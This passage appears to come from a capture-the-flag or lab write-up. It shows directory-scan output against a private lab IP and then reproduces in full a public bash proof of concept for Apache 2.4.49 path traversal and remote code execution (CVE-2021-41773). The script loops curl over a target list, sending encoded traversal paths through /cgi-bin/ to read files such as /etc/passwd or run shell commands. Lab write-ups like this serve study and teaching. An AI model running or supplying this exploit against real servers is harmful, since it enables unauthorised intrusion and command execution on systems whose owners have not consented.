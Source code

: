 ```
[10:17:04] 403 -  199B  - /.htaccessBAK
[10:17:04] 403 -  199B  - /.htaccessOLD2
[10:17:04] 403 -  199B  - /.htaccess.bak1
[10:17:04] 403 -  199B  - /.htaccessOLD
[10:17:04] 403 -  199B  - /.htpasswd_test                                  
[10:17:04] 403 -  199B  - /.htaccess_orig
[10:17:04] 403 -  199B  - /.htm
[10:17:04] 403 -  199B  - /.htpasswds
[10:17:04] 403 -  199B  - /.html
[10:17:04] 403 -  199B  - /.httr-oauth                                     
[10:17:38] 200 -  404B  - /assets/                                          
[10:17:38] 301 -  234B  - /assets  ->  http://10.10.58.80/assets/           
[10:17:42] 403 -  199B  - /cgi-bin/                                         
[10:17:43] 500 -  528B  - /cgi-bin/test-cgi                                 
[10:18:00] 200 -   57KB - /index.html                                       
                                                                             
Task Completed                                    
```


---
## Searchsploit
Found an exploit for Apache 2.4.49:

>Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE) | multiple/webapps/50383.sh

```
# Exploit Title: Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
# Date: 10/05/2021
# Exploit Author: Lucas Souza https://lsass.io
# Vendor Homepage:  https://apache.org/
# Version: 2.4.49
# Tested on: 2.4.49
# CVE : CVE-2021-41773
# Credits: Ash Daulton and the cPanel Security Team

#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
echo $host
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done

# PoC.sh targets.txt /etc/passwd
# PoC.sh targets.txt /bin/sh whoami       
```

